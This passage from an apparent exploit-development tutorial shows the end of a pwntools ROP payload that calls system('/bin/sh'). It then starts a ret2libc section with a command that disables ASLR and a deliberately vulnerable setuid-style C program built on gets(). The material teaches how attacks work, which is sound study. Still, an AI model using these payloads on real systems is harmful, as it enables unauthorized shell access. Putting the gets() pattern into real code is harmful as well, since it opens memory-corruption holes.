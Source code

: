 ```python
# - Align the stack (optional but good practice)
# - Jump to system("/bin/sh")
payload = cyclic(40) + p64(pop_rdi) + p64(bin_sh) + p64(ret) + p64(system)

# Send the payload to the process
io.sendline(payload)

# Drop to interactive shell to use the spawned shell (if exploit works)
io.interactive()
```
## 0x6 - Ret2LIBC

This is another method used to bypass **NX (Non-Executable Stack)** protection. In previous techniques like ROP (Return Oriented Programming), we might have had the `system()` function and the `/bin/sh` string already present in the binary, making it easier to construct our exploit.

However, in a **ret2libc** attack, we assume that the `system()` function is not part of the binary itself, but is instead located in a **shared library** (typically libc – the standard C library). Similarly, the string `"/bin/sh"` is often also found within libc.

So, instead of using gadgets from the binary, we redirect execution to libc’s `system()` function and pass the address of the `"/bin/sh"` string (also in libc) as its argument. This allows us to spawn a shell even when the binary lacks both `system()` and `/bin/sh`.

But first lets disable ASLR from Linux system (We will later learn on how to bypass ASLR also.)

```bash
❯ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
0
```

```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void init() {
  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);
}

int main() {
	init();
	char buff[30];
	printf("Enter Data - ");
	gets(buff);
	return 0;
}
```
